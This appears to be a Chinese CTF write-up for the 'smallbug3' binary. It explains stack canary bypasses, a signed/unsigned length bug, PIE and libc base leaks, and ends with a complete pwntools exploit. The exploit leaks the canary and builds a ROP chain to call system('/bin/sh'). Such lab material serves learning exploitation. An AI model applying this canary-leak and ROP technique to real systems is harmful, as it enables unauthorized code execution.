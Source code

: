 ```yaml
---
title: smallbug3
data: 2019-07-18
categories:
- sundry
tag: stack  canary  pie 
---
```


**<font style="font-size:25px">绕过canary & 确定基址</font>**

# Canary

## 概念

canary是一个保护机制，具体的实现，是在**ebp和esp**之间放入一个canary值，在程序结束的时候判断是否被更改，改变则通过__stack_chk_fail结束当前进程。一定程度上可以防止栈溢出攻击。
![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718130832_82SPi.png)    
注意这里的var_8,就是放canary值的偏移。   

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718124702_rz8kk.png)

## 特性

占用一个字的大小，canary值的最低位一定是\x00。

## 绕过方法

### 劫持__stack_chk_fail

canary被改写后，程序流程就会经过__stack_chk_fail退出程序。如果将这个函数劫持    
- 例如更改got表

就可以在canary检查失败后劫持程序。   

### 泄露canary值

canary保护机制仅仅检查canary的值是否被篡改，而不会检查栈的其他内容。因此如果每次栈溢出的时候覆盖为相同的值就可以通过检查。   

#### 如何泄露

canary在存储时的最高位（小端序）是'\x00'，会截断canary值和前面的内容。只要将'\x00'覆盖成不会截断字符串打印的值，就可以通过打印字符串的形式得到当前canary值。

#### canary的生成

同一个线程里面的canary值是相同的。

### 爆破

还没试过。与`fork()`这个函数和线程有关。

### 覆盖与栈中canary值进行比较的值

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718131614_PjAaf.png)

# 思路

## 漏洞点

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718132149_Z3Anv.png)   

程序在判断大小的时候nbytes是做的有符号数，而在read中做参数的时候是无符号数。输入负数即可绕过判断进行栈溢出。

## 流程

这个二进制文件checksec一下会发现所有的保护都开了。   
`FULL RELRO`意味着没法改got表，所以要泄露canary的值。
要进行三次栈溢出。  
- 打印canary的值& 泄露程序基址
- 泄露libc基址
- getshell

### 程序基址怎么泄露


我暂时还没有找到相关资料，但是我打开了一些二进制文件，发现在main函数里面的时候：
- 32位的ebp指向的栈里保存的是0x0
- 64位的rbp指向的栈里保存的是__libc_csu_init的地址。
- 我还搞不清楚的是为什么__libc_csu_init的地址不是7f开头而是与程序加载基址有关。
    - 2019/7/20 补充：这是一个程序自带的函数。不是动态链接库里面的。

我们如果用这个想法来看这个程序的rbp，  

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718140553_Xj5Cz.png)    

虽然他去符号化了，但是按照这个思路来说，就可以根据__libc_csu_init的地址找到main的地址。
```python
main_addr = __libc_csu_init_addr & (~0xfff) + 0x9cc
```
`0x9cc` 是从ida里面看的main地址。因为他开了pie，所以这个只是一个偏移地址。程序加载基址是`__libc_csu_init_addr & (~0xfff)`

**<font style="font-size:30px"> 待补充原因</font>**

### libc基址怎么泄露

使用puts打印出puts@got的内容。

### getshell

可以使用one_gadget,也可以直接构造`system('/bin/sh')`,但是如果打远程的话需要知道libc的版本。  

系统中断不行，找不到int 0x80。   

### 注意点

1. 程序是64位，采用寄存器传参，需要使用pop_rdi_ret。
2. 地址低位为`\x00`时在`u64()`的前面补`\x00`，高位则在后面。

## 坑

为什么gdb.attach的位置会影响exp？？？

# exp

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = process('./smallbug3')
elf = ELF('./smallbug3')
libc = elf.libc

log.info("===================>fake size<=================")
sh.sendlineafter('name:\n',"-1")
log.info("===============>leak canary value<==============")
offset = 0x94 - 0x4 - 0x8
payload = 'A' * offset + 'B'

sh.sendafter('name:\n',payload)
sh.recvuntil("B")
canary = u64('\x00' + sh.recv(7))
print '-------------------{:#x}-----------------'.format(canary)

log.info("=============>leak process main addr <===========")
elf_base = u64( sh.recv(6) + '\x00\x00') & (~0xfff)
main_addr = elf_base + 0x9cc

log.info("===============>leak libc base<==================")
puts_got = elf.got['puts'] + elf_base
puts_plt = elf.plt['puts'] + elf_base
pop_rdi_ret = 0xb33 + elf_base

payload = 'A'* offset + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) 
payload += p64(puts_plt) + p64(main_addr)


sh.sendlineafter('us:\n',payload)
libc_base = u64(sh.recvuntil('\x7f')[-6:]+'\x00\x00') - libc.symbols['puts']

print '-------------------main_addr:{:#x}-----------------'.format(main_addr)
print '-------------------libc_base:{:#x}-----------------'.format(libc_base)

log.info('===============>get shell<=======================')
 #one_gadget local_libc
one_gadget = libc_base + 0x4239e
system_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search('/bin/sh').next()

sh.sendlineafter('name:\n',"-1")
sh.sendlineafter('name:\n','A' * 8)
#payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(one_gadget)
payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(pop_rdi_ret) + p64(bin_addr) + p64(system_addr)
sh.sendlineafter('us:\n',payload)

sh.interactive()
sh.close()
```